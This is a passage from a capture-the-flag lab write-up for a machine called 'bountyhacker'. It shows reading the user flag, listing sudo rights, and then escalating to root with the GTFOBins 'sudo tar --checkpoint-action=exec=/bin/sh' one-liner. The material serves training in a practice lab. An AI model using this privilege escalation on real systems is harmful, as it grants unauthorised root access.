 ```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
```

<details><summary>🚩 Flag 1 (user.txt)</summary></details>

#### 2.4 - What is the root flag?

Now, we need to get root permissions to explore the root folder.

We can use sudo -l command to find process with root priviledge:

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

In this case only: /bin/tar, we find this script on gtfobins website to became a root: [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
# whoami
root
```

Now, we're root!

```bash
# cd /root/
# ls
root.txt
# cat root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>

